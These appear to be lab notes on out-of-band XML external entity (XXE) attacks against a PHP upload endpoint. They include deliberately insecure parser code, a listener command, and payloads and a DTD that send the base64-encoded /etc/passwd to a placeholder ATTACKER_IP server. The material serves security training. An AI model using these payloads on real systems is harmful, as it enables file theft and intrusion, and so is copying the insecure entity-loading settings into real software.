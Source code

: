 ```php
libxml_disable_entity_loader(false);
$xmlData = file_get_contents('php://input'); 

$doc = new DOMDocument();
$doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD);

$links = $doc->getElementsByTagName('file');

foreach ($links as $link) {
    $fileLink = $link->nodeValue;
    $stmt = $conn->prepare("INSERT INTO uploads (link, uploaded_date) VALUES (?, NOW())");
    $stmt->bind_param("s", $fileLink);
    $stmt->execute();
    
    if ($stmt->affected_rows > 0) {
        echo "Link saved successfully.";
    } else {
        echo "Error saving link.";
    }
    
    $stmt->close();
}
```

The code above doesn't return the values of the submitted XML data. Hence, the term Out-of-Band since the exfiltrated data has to be captured using an attacker-controlled server. You can use Python's http.server module, although there are options out there, like Apache or Nginx.
```shell-session
user@tryhack $ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

Upload a file in the application and monitor the request that is sent to `submit.php` using your Burp. Forward the request below to Burp Repeater.
	![](Pasted%20image%2020241220120014.png)

Using the payload below, replace the value of the XML file in the request and resend it.
```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://{ATTACKER_IP}:1337/" >]>
<upload><file>&xxe;</file></upload>
```

![](Pasted%20image%2020241220120112.png)

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.
	![](Pasted%20image%2020241220120129.png)

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:
```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

## **DTD Payload Explained**
The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`.
	  The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.

Go back to the repeater and change your payload to:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```

![](Pasted%20image%2020241220120911.png)

Resend the request and check your terminal. You will receive two (2) requests. The first is the request for the sample.dtd file, and the second is the request sent by the vulnerable application containing the encoded /etc/passwd.
	![](Pasted%20image%2020241220120930.png)
Decoding the exfiltrated base64 data will show that it contains the base64 value of /etc/passwd.
	![](Pasted%20image%2020241220120950.png)


